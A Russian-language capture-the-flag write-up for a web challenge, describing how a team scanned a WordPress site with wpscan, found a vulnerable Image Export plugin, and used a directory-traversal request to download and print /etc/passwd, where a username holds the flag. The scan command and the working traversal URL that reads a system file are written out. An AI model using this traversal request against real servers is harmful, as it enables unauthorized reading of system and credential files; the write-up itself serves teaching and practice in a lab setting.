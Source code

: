 Mr.Hacker [Web 150]
=====================
> Красивый дизайн, впечатляющие возможности и свобода создавать всё, что вы захотите.
http://185.17....... (Посмотри на логин этого парня)


![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image01.PNG?raw=true)

Переходим на сайт. Видим, что cms сайта - ```wordpress```. Так же можно узнать версию wordpress ```4.7.3```.
Если вы читаете IT новости, то наверняка видели много статьей про уязвимости wordpress, а значит нам необходимо их поэксплуатировать

Используем встроенный в Kali Linux сканер ```wpscan``` (его также можно установить на любой другой дистрибутив)

Инициализируем, используя флаги ```--url``` (для указания ip адреса сайта)  ```--enumerate``` (перечисление опций ) ```vp``` (только уязвимые плагины)

```wpscan --url http://185.17......./ --enumerate vp```


В результате сканирования получаем следующую информацию:

```
[+] We found 1 plugins:

[+] Name: image-export - v4.1
 |  Location: http://185.17......./wp-content/plugins/image-export/
 |  Readme: http://185.17......./wp-content/plugins/image-export/readme.txt

[!] Title: Image Export <= 1.1.0 - Directory Traversal
    Reference: https://wpvulndb.com/vulnerabilities/8096
    Reference: http://www.vapid.dhs.org/advisory.php?v=135
    Reference: http://packetstormsecurity.com/files/132688/

[+] Finished: Sun Jun  3 15:22:51 2018
[+] Requests Done: 1697
[+] Memory used: 78.488 MB
[+] Elapsed time: 00:00:54
```

Как мы видим, на сайте используется уязвимый плагин ```Image Export```

Гуглим, натыкаемся на сайт с описанием экспоита:

```https://ru.0day.today/exploit/23884```

![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image02.PNG?raw=true)

Читаем описание экспоита.
Видим, что с помощью данного экспоита можно получить доступ к файлам сервера.
Применим его к нашему сайту, скачав файл с данными пользователей ```/etc/passwd```

```http://185.17......./wp-content/plugins/image-export/download.php?file=/etc/passwd```

Открываем файл и внизу обнаруживаем пользователя со странным никнеймом ```th1s_Is_d1r3cT0ryTR4VeRs4l```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nut:x:84:84:nut:/var/state/nut:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/bin/false
th1s_Is_d1r3cT0ryTR4VeRs4l:x:1000:1000:Linux User,,,:/home/th1s_Is_d1r3cT0ryTR4VeRs4l:
<br />
<b>Warning</b>:  unlink(/etc/passwd): Permission denied in <b>/var/www/html/wp-content/plugins/image-export/download.php</b> on line <b>8</b><br />
```
Легко догадаться, что данное имя пользователя и является флагом

```flag{th1s_Is_d1r3cT0ryTR4VeRs4l}```

*p.s. Решение таска от команды Red Cadet*

